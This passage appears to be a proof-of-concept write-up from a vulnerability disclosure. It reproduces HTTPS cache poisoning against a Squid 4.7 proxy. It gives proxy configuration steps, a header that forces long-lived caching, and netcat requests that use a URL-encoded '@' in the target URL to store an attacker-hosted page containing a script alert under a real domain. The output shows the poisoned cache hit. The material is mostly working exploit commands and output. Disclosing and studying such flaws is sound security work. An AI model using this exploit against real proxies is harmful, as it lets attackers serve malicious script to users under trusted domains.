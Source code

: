 If your test certs aren't valid (self signed for testing) you need to add the following directive in the config. 
```
sslproxy_cert_error allow all
```

Finally you'll need to initalize the SSL DB that you've told Squid to use. This is the -s option in sslcrtd_program

```
./libexec/security_file_certgen ./var/lib/ssl_db -c -s ./var/lib/ssl_db -M 4MB
```

You're also going to need a server with SSL that you can control the headers on.
You have to send the following header so that Squid will cache your response. 
```
Cache-Control: public, immutable, max-age=31536000
```
Once you've done that you're ready to repo HTTPS poisoning which is essentially the same as our FTP Poisoning. 

1) Start Squid
```
./sbin/squid
```

2) start you SSL Server 

3) Make a poison request
```
echo -e "GET https://hackerone.com%2f%3f@192.168.122.1:8080/html/alert.html HTTP/1.1\r\n\r\n" |nc <squid hostname> 3128

nc: using stream socket
HTTP/1.1 200 OK
Server: SimpleHTTP/0.6 Python/3.6.10
Date: Thu, 19 Mar 2020 16:17:46 GMT
Content-Type: text/html
Content-Length: 74
Last-Modified: Mon, 22 Apr 2019 23:18:08 GMT
Cache-Control: public, immutable, max-age=31536000
X-Cache: MISS from g64
Via: 1.1 g64 (squid/4.7)
Connection: keep-alive

<html>
	<body>
		<script>alert(document.domain)</script>
	</body>
</html>
```
4) Make the request to the real domain 
Notice the X-Cache: HIT header
```
echo -e "GET https://hackerone.com/?@192.168.122.1:8080/html/alert.html HTTP/1.1\r\n\r\n" |nc <squid hostname> 3128
nc: using stream socket
HTTP/1.1 200 OK
Server: SimpleHTTP/0.6 Python/3.6.10
Date: Thu, 19 Mar 2020 16:17:46 GMT
Content-Type: text/html
Content-Length: 74
Last-Modified: Mon, 22 Apr 2019 23:18:08 GMT
Cache-Control: public, immutable, max-age=31536000
Age: 334
X-Cache: HIT from g64
Via: 1.1 g64 (squid/4.7)
Connection: keep-alive
```